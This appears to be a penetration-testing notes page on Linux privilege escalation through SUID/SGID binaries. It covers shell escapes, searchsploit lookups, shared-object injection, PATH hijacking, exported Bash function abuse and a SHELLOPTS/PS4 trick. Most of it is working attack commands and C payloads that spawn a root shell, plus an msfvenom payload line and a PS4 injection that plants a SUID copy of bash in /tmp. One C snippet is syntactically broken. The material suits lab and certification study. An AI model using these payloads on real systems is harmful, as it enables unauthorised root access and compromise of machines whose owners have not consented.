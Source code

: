 ```yaml
---
title: SUID / SGID
parent: Method (Linux)
layout: default
nav_order: 4
---
```


Cannot use `LD_PRELOAD` or `LD_LIBRARY_PATH` for SUID.

## Shell escape
1. Can find SUID and SGID files with this command:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
2. Check the shell escape at https://gtfobins.github.io/

## Known Exploits
1. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
2. Check the version of the app (`--version` or `--help`)
3. Use `searchsploit appname version`
4. If got any `^M` character remove them, set executable `chmod +x esc.sh`
5. Execute to get root

## Shared Object Injection
1. Application will load shared objects required. So if we can know which shared objects not found we can replace them and get root if there is SUID.
2. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
3. Run strace on the file (eg if we see /usr/local/bin/suid-so):\
   `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
4. If we see something like open(`"/home/user/bla/libcalc.so`) in directory we can write to, we can attempt to create the file.
5. Create the bla directory, and create the libcalc.c as below.
6. Compile libcalc.c into /home/user/bla/libcalc.so:\
   `gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c`
7. Run the SUID file:\
   `/usr/local/bin/suid-so`

libcalc.c
```
#include <stdio.h>
#include <stdlib.h>
​
static void inject() __attribute__((constructor));
void inject() {
    setuid(0);
    system("/bin/bash -p"
}
```

## PATH environmental variable
1. When programA (not script) try to run another programB, most likely name of programB is embedded in the executable file of programA as a string.
2. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
3. Run `strings` on the suspicious app (for eg `strings /usr/local/bin/suid-env`). If you see something like `service apache2 start`, this app might be running service without a full path.
4. Can verify with strace:\
   `strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service`\
   or ltrace:\
   `ltrace /usr/local/bin/suid-env 2>&1 | grep service`
5. Since it runs service, create a service.c as below. (OR JUST CREATE A METERPRETER COMMAND AND RENAME IT!) For example:\
   `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf > xxx`\
   Download on the target, then `chmod 777 xxx`\
   Make sure the name is correct, then run step 7: `PATH=.:$PATH /usr/local/bin/vulnser`\
6. Compile service.c into service:\
   `gcc service.c -o outputfilename`
7. Prepend the current directory (where you compiled service) into PATH and execute SUID: `PATH=.:$PATH /usr/local/bin/suid-env`

service.c
```
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```

## Abusing Shell Feature 1
Only works on Bash < 4.2-048 (can define user function using a path name and even take priority)

1. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
2. Run `strings` on the suspicious app (eg: `strings /usr/local/bin/suid-env2`). If you see results like `/usr/sbin/service apache2 start`, although service is full path, still possible vulnerable.
3. Verify with strace:\
   `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`\
   or ltrace:\
   `ltrace /usr/local/bin/suid-env2 2>&1 | grep service`
4. Ensure that bash is lower than 4.2-048\
   `bash --version`
5. Create a bash function with the name /usr/sbin/service and export the function:\
   `function /usr/sbin/service { /bin/bash -p; }`
   `export –f /usr/sbin/service`
6. Execute the SUID for root shell\
   `/usr/local/bin/suid-env2`

## Abusing Shell Feature 2
Debugging mode with SHELLOPTS

1. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
2. Run `strings` on suspicious app (example `strings /usr/local/bin/suid-env2`). If you see results like `/usr/sbin/service apache2 start`, although service is full path, still possible vulnerable.
3. Verify with strace:\
   `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`\
   or ltrace:\
   `ltrace /usr/local/bin/suid-env2 2>&1 | grep service`
4. Run the SUID file with debugging and our payload:\
   `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2`
5. Run rootbash with -p to gain root shell:
   `/tmp/rootbash -p`